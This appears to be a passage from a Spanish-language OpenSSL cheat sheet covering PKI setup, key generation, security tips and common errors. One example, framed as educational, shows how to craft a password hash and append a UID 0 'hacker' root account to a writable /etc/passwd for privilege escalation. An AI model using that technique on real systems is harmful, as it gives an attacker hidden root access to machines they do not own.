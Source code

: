 > [!info] Explicación
> Este ejemplo muestra el flujo completo para crear una infraestructura de clave pública (PKI):
> 1. Preparar estructura de directorios y archivos necesarios
> 2. Crear una autoridad certificadora (CA)
> 3. Generar una solicitud de certificado para un servidor
> 4. Firmar el certificado con la CA
>
> Nota: Este ejemplo requiere un archivo openssl.cnf adecuado.

### Ejemplo 4: Generar hash de contraseña para escalada de privilegios

```bash
# Generar hash de contraseña compatible con /etc/passwd
openssl passwd -1 -salt xyz MiContraseña

# Añadir usuario root al /etc/passwd (en sistemas vulnerables)
echo "hacker:$HASH:0:0:Hacker:/root:/bin/bash" >> /etc/passwd
```

> [!warning] Solo para entornos controlados
> Este ejemplo se proporciona únicamente con fines educativos para entender cómo los atacantes pueden abusar de permisos incorrectos en /etc/passwd.

---

## 💡 Tips y buenas prácticas

### Optimización y seguridad

> [!tip] Mejores prácticas
> - Usa siempre rutas absolutas a los archivos para evitar confusiones
> - Protege las claves privadas con frases de contraseña fuertes
> - Limita los permisos de archivos de claves privadas (`chmod 600`)
> - Mantén OpenSSL actualizado para evitar vulnerabilidades conocidas
> - Usa algoritmos modernos (RSA 2048+, ECDSA, AES-256, SHA-256/512)
> - Evita compartir claves privadas entre diferentes servicios

### Configuración de certificados de alta seguridad

```bash
# Generar clave EC (más rápida y segura que RSA para igual nivel de seguridad)
openssl ecparam -genkey -name secp384r1 -out ec-key.pem

# Generar clave RSA con tamaño seguro
openssl genrsa -aes256 -out key.pem 4096
```

### Errores comunes y soluciones

| Error | Problema | Solución |
|-------|----------|----------|
| `unable to write 'random state'` | Permisos insuficientes en directorio actual | Ejecutar en directorio con permisos de escritura |
| `error:0906D06C:PEM routines:PEM_read_bio:no start line` | Formato de archivo incorrecto | Verificar que el archivo esté en formato PEM correcto |
| `error:0B080074:x509 certificate routines:X509_check_private_key:key values mismatch` | La clave privada no corresponde al certificado | Usar la clave privada correcta para el certificado |
| `verify error:num=19:self signed certificate in certificate chain` | Cadena de certificados no confiable | Añadir CA a almacén de confianza o usar `-CAfile` |
| `error:1408F10B:SSL routines:ssl3_get_record:wrong version number` | Versión SSL/TLS incompatible | Especificar versión correcta o verificar soporte en servidor |
